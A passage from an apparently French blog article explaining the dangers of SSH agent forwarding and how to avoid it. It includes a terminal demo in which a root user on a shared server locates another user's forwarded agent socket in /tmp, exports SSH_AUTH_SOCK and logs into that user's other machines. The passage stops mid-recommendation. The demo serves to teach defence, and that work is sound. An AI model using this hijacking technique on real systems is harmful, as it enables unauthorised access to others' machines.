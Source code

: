 Là où ça pique vraiment, c’est que **votre agent SSH de départ connaît toutes vos clefs**.
Pas seulement celle que vous avez réellement utilisée pour votre chaîne de connexion. Toutes.
Si vous avez par exemple une clef A pour vos machines persos et une clef B pour vos machines pros, que les deux sont chargées dans l’agent que vous avez exporté, votre collègue connecté en même temps peut alors se connecter à toutes vos machines perso !
On pousse encore un peu la parano ? Vous utilisez [GitHub](https://github.com/) très certainement, et avec une clef SSH pour éviter d’avoir à saisir votre mot de passe à chaque push/fetch.
Vous avez un agent SSH et vous avez activé le transfert d’agent par défaut ?
Bingo, à chacune de vos connexions, GitHub peut se connecter à l’ensemble de vos machines, y déployer sa propre clef SSH (dans `/root/.ssh/authorized_keys2`, il est aussi pris en compte par SSH et peu d’admin penseront à vérifier ce fichier :P) et ainsi monter un botnet géant constitué de l’intégralité du parc informatique de tous ses utilisateurs.

Une petite démo de l’utilisation possible :

	alice@home  $ eval $(ssh-agent)
	alice@home  $ ssh-add ~/.ssh/id_ed25519_perso
	alice@home  $ ssh-add ~/.ssh/id_ed25519_pro
	
	alice@home  $ ssh alice@perso
	alice@perso $ logout 
	
	alice@home  $ ssh alice@pro -A
	alice@pro   $ echo $SSH_AUTH_SOCK
	SSH_AUTH_SOCK=/tmp/ssh-HVo7YpeUUH/agent.4245
	alice@pro   $ (do a long stuff)
	
	(Meanwhile)
	malory@home $ ssh root@pro
	root@pro    # echo $SSH_AUTH_SOCK
	
	root@pro    # ssh alice@perso
	Permission denied (publickey).
	
	root@pro    # find /tmp -path /tmp/ssh-*/agent.*
	/tmp/ssh-HVo7YpeUUH/agent.4245
	root@pro    # ls -al /tmp/ssh-HVo7YpeUUH/agent.4245
	srwxr-xr-x 1 alice alice 0 Jul 22 20:08 /tmp/ssh-HVo7YpeUUH/agent.4245
	root@pro    # export SSH_AUTH_SOCK=/tmp/ssh-HVo7YpeUUH/agent.4245
	
	root@pro    # ssh alice@perso
	alice@perso $ echo Powned | write alice

# Du (bon) usage de l’agent SSH et du transfert d’agent

Maintenant qu’on a vu comment on pouvait exploiter l’agent SSH des autres, voyons comment on peut se prémunir de ce genre de problème.

## Ne pas utiliser de transfert d’agent SSH

La solution la plus simple est de se passer tout simplement du transfert d’agent.

On peut conserver les possibilités de rebond via l’option `ProxyCommand` et `-W` de SSH.
Par exemple pour joindre `bar` via `foo`, vous pouvez mettre dans votre fichier `~/.ssh/config` :
